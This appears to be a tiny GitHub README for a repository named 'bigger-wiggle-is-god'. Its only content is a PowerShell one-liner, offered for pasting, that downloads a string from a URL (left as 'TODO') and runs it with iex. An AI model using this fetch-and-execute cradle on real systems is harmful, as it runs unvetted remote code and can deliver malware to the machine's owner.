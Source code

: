 # bigger-wiggle-is-god

🐳

Oneline Powershell script to execute!

`iex (New-Object Net.WebClient).DownloadString("TODO")`
